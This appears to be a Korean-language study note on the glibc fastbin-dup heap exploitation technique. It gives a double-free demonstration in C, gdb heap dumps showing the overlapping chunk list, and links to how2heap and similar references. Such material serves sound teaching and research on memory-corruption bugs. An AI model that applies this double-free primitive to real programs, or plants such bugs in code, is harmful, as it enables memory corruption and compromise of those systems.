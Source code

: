 # **fastbin-dup**

fastbins는 Free Chunk를 Single list로 관리한다.  
동일한 크기의 Fast Chunk 여러개가 해제되면, Chunk의 fd 영역을 이용해 관리한다.

## **Conditions**

* 공격자에 의해 동일한 크기의 Fast Chunk의 할당과 해제가 자유로워야 한다.
* 공격자에 의해 해제된 Fast Chunk를 한 번 더 해제할 수 있어야 한다.(Double Free Bug)

## **Exploit Plan**

1. 동일한 크기의 Fast Chunk 3개 생성
1. 첫 번째 Fast Chunk 해제
1. 두 번째 Fast Chunk 해제
1. 첫 번째 Fast Chunk 해제
1. 같은 크기의 Heap을 3개 할당  
    * 1번째 Heap 영역과 3번째 Heap 영역의 주소가 같다!

```c
#include <stdio.h>
#include <stdlib.h>
 
int main()
{
        int *buf1 = malloc(112);
        int *buf2 = malloc(112);
        int *buf3 = malloc(112);
 
        free(buf1);
        free(buf2);
        free(buf1);
 
        int *buf4 = malloc(112);
        int *buf5 = malloc(112);
        int *buf6 = malloc(112);
}
```

* 3번째 Free 다음 fastbin 구조 

```
gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x602000 --> 0x602080 --> 0x602000 (overlap chunk with 0x602000(freed) )
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x602180 (size : 0x20e80) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x0
```

* buf4 malloc 후 구조

```
gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x602080 --> 0x602000 --> 0x602080 (overlap chunk with 0x602080(freed) )
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x602180 (size : 0x20e80) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x0

```

* buf5 malloc 후 구조

```
gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x602000 --> 0x602080 --> 0x602000 (overlap chunk with 0x602000(freed) )
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x602180 (size : 0x20e80) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x0

```

* buf6 malloc 후 구조

```
gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x602080 --> 0x602000 --> 0x602080 (overlap chunk with 0x602080(freed) )
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x602180 (size : 0x20e80) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x0

```

**fastbinsY의 변화**  
0x602000 → 0x602080 → 0x602000 → 0x602080  

**References**  
<https://www.lazenca.net/display/TEC/fastbin_dup>  
<https://github.com/shellphish/how2heap/blob/master/fastbin_dup.c>  
<https://bpsecblog.wordpress.com/2016/08/31/translate_fastbin/>  
<https://bachs.tistory.com/entry/HITCON-Training-lab12-Fastbin-Attack?category=961837>

